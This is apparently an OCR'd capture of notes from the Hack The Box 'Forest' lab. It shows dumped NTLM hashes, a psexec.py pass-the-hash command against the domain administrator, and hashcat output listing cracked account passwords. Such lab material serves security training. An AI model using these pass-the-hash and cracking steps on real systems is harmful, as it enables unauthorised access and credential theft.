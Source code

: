 FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:749fa51700da0d08547303f46101d0d5:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::

psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6



c:\tmp\hashcat-6.1.1>hashcat --user -m1000 forest.ntlm rockyou.txt --show
Guest:31d6cfe0d16ae931b73c59d7e0c089c0:
DefaultAccount:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\$331000-VK4ADACQNUCA:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_2c8eef0a09b545acb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_ca8c2ed5bdab4dc9b:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_75a538d3025e4db9a:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_681f53d4942840e18:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_1b41c9286325456bb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_9b69f1b9d2cc45549:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_7c96b981967141ebb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_c75ee099d0a64c91b:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_1ffab36a2f5f479cb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\svc-alfresco:9248997e4ef68ca2bb47ae4e6f128668:s3rvice
htb.local\santi:483d4c70248510d8e0acb6066cd89072:plokmijnuhb
xmbomb:a9fdfa038c4b75ebc76dc855dd74f0da:password123